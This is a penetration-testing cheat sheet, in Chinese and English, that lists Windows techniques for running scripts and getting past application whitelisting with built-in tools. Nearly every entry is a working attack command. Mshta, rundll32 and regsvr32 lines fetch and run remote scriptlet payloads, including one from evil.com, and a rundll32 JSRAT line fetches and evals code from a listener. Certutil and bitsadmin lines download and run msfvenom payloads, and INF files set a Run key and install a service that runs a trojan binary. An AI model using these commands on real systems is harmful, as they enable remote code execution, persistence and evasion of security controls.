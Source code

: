 windows script example in penetration
----

#### 1.	powershell ####

	powershell -executionpolicy bypass ./powershell_script.ps1

#### 2. VBS ####

默认可以直接在机器上运行，命令行下可以通过`cscript.exe`执行

	cscript.exe vbs_script.vbs
	vbs_script.vbs


#### 3. csc(.cs c#) ####

首先通过`csc.exe`进行编译c#为`exe`，然后通过`InstallUtil.exe`进行程序执行

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PEL.exe InstallUtilBypass.cs

	InstallUtil.exe /logfile= /LogToConsole=false /U PEL.exe

#### 4. Jscript(.js) ####

可以通过`wscript.exe`、`cscript.exe`以及直接运行，主要通过`ActiveXObject()`创建对应的对象`WScript.shell`、`Shell.Application`.

	cscript.exe/wscript.exe jscript.js
	jscript.js

JScript参考链接：http://www.yuanma.net/Manual/JavaScript/

https://evi1cg.me/archives/Run_JSRAT.html

https://github.com/Ridter/MyJSRat

通过访问wtf来获取payload, 最后是通过rundll32来执行的payload，不需要使用powershell

#### 5. Mshta ####

HTA（HTML Application)，可以嵌入`JScript`和`VBScript`，后缀名为`.hta`时可以直接运行，使用命令行`mshta`时，后缀可以使用`htm`,`xml`. 执行时带上绝对路径方可运行，否则无效。

	mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct"").Exec()"))

	mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();

#### 6. Rundll32 ####

利用时需要注意`RunHTMLApplication`后面是有一个空格。

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%  #JSRAT

	rundll32 AllTheThings.dll,EntryPoint 

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct");o.Exec();window.close();	

通过`system`的一些`dll`可以扩展很多绕过方法：

	rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe

	rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe

	rundll32 url.dll, FileProtocolHandler calc.exe
	
	rundll32 C:\Windows\system32\shell32.dll,OpenAs_RunDLL C:\ProgramData\x64.1

修改注册表项

reg.inf

    [Version]
    
    Signature="$WINDOWS NT$"
    
    [DefaultInstall]
    
    AddReg=My_AddReg_Name
    
    DelReg=My_DelReg_Name
    
    [My_DelReg_Name]
    
    HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,KAVRun

    rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf

添加服务

srv.inf

    [Version]
    Signature="$WINDOWS NT$"
    [DefaultInstall.Services]
    AddService=inetsvr,,My_AddService_Name
    [My_AddService_Name]
    DisplayName=Windows Internet Service
    Description=提供对 Internet 信息服务管理的支持。
    ServiceType=0x10
    StartType=2
    ErrorControl=0
    ServiceBinary=%11%\muma.exe

	rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/srv.inf

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

#### 7. Regsvcs/Regasm

白名单绕过方法，通过加载DLL(.Net/C#).	(尝试在即编写dll，一直失败）, `regsvcs`注册`dll`需要签名。

	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll


	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

https://gist.githubusercontent.com/jbarcia/a5ba8cf3badebf3c802f83832eda1059/raw/39aa6341cda40500a02cfc069b6d6ec45f1c5028/evil.cs(在编译这个脚本时，需要更改系统语言区域为英语/美国，非unicode，编译就不会报错了)

	rundll32 evil.dll,EntryPoint

http://www.codesec.net/view/443056.html

#### 8. Regsvr32

本地脚本加载运行

	regsvr32.exe /s /u /i:payload.sct scrobj.dll

远程脚本加载运行

	regsvr32.exe /s /u /i:http://evil.com/payload.sct scrobj.dll

	regsvr32.exe  payload.dll	# DLLregisterServer
	regsvr32.exe  /u payload.dll # DLLUnregisterServer

#### 9. odbcconf/Msbuild

	odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

	cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

windows 文件下载

	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete

#### 10.bitsadmin

	cmd.exe /c bitsadmin /transfer d90f http://vps/a %APPDATA%d90f.exe&%APPDATA%d90f.exe&del %APPDATA%d90f.exe

http://vps/a 为通过msfvenom生成payload


#### MISC

install metasploit：

	curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
